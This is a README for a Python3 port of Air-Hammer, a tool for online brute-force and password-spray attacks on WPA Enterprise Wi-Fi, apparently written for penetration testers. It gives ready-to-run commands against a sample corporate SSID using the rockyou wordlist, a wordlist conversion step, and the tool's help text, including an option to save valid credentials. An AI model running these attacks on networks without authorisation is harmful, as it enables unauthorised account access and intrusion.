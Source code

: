 Air-Hammer (Python3 version) - A WPA Enterprise horizontal brute-force attack tool
==========

This tool was originally developed by **Wh1t3Rh1n0** and all credit goes to him. The original is available [HERE](https://github.com/Wh1t3Rh1n0/air-hammer).



Usage
-----

 ```bash
git clone
cd air-hammer
python3 -m venv ~/myenv
source ~/myenv/bin/activate
pip install wpa_supplicant
 ```
**Password Bruteforce**:
```bash
echo 'CONTOSO\\test' > test.user
sudo /home/kali/myenv/bin/python air-hammer.py -i wlan3 -e wifi-corp -p /usr/share/wordlists/rockyou-utf8.txt -u test.user
```

**Username Bruteforce/ Password Spray**:
```bash
sudo /home/kali/myenv/bin/python air-hammer.py -i wlan3 -e wifi-corp -P 12345678 -u top-usernames-shortlist.txt
```
Things to note:
- Make sure to use the full path to the Python executable within the virtual environment: /home/kali/myenv/bin/python
- It might not accept the standard rockyou.txt, convert rockyou.txt to utf8:
  ```bash
  iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt -o rockyou-utf8.txt
  ```



The `-h` or `--help` flags can be used to display Air-Hammer's usage instructions.

```
root@kali:~# ./air-hammer.py --help
usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)
```

